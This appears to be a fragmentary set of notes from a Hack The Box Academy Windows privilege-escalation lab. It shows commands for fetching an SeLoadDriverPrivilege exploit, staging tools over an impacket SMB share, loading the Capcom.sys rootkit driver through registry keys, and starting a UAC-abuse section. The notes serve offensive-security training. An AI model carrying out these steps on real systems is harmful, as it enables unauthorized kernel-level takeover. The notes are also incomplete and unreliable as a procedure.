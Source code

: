 wget https://raw.githubusercontent.com/3gstudent/Homework-of-C-Language/master/EnableSeLoadDriverPrivilege.cpp

#include <windows.h>
#include <assert.h>
#include <winternl.h>
#include <sddl.h>
#include <stdio.h>
#include "tchar.h"

sudo impacket-smbserver share -smb2support /tmp/smbshare

copy \\10.10.15.26\share\EnableSeLoadDriverPrivilege.cpp

organization's security policies block unauthenticated guest access

sudo impacket-smbserver share -smb2support /home/htb-ac-786011/ -user test -password test

c:\Users\htb-student>net use n: \\10.10.15.26\share /user:test test
The command completed successfully.

c:\Users\htb-student>copy n:\EnableSeLoadDriverPrivilege.cpp
        1 file(s) copied.

git clone https://github.com/FuzzySecurity/Capcom-Rootkit

copy n:\Capcom-Rootkit\Driver\Capcom.sys

c:\Users\htb-student>reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Users\htb-student\Capcom.sys"
The operation completed successfully.

c:\Users\htb-student>reg add HKCU\System\CurrentControlSet\CAPCOM /v Type /t REG_DWORD /d 1
The operation completed successfully.

https://www.pconlife.com/download/otherfile/15667/b5307913aedd87eddbc2e383f1629e6a/

copy n:\cl.exe

findstr /si cl *.exe

dir /S /B cl.exe

copy n:\VSCode-win32-x64-1.86.0.zip

copy n:\VisualStudioSetup.exe

--> Installation failed due to need of administrator rights

### Abuse UAC

whoami /user

USER INFORMATION
----------------

User Name                   SID
=========================== ==============================================
academy-winlpe-\htb-student S-1-5-21-1961621466-3413676743-2436262688-1002

net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain
